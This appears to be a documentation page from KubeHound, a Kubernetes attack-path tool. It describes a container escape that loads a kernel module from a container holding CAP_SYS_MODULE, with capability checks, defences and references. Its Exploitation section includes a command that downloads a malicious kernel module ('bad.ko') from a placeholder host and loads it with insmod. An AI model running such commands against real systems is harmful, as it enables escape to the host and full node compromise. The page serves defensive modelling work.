 ```yaml
---
title: CE_MODULE_LOAD
---
```


<!--
id: CE_MODULE_LOAD
name: "Container escape: Load kernel module"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_MODULE_LOAD

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Load a kernel module from within an overprivileged container to breakout into the node.

## Details

Container isolation mechanisms are restricted to user-space execution. If an attacker gains kernel level execution via loading a kernel module or exploiting a kernel vulnerability, all isolation mechanisms can be bypassed. If a container is run with `--privileged` or if `CAP_SYS_MODULE` is explicitly enabled via the `securityContext` setting, kernel modules can be loaded from within the container, leading to a trivial and powerful container escape.

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_MODULE_LOAD.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Download a pre-compiled kernel module suitable for the target OS/architecture (see [examples](https://github.com/milabs/awesome-linux-rootkits)) and load from within the container:

```bash
curl -O exploit.delivery/bad.ko
insmod bad.ko
```

## Defences

### Monitoring

+ Monitor for unfamiliar kernel modules loaded or kernel modules loaded from within a running pod which should both be high-fidelity signals of malicious activity.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeModuleLoad](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_module_load.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Linux Privilege Escalation - Exploiting Capabilities - StefLan's Security Blog](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)
+ [Module Load Breakout](https://raesene.github.io/blog/2023/08/06/fun-with-privileged-container-breakout/)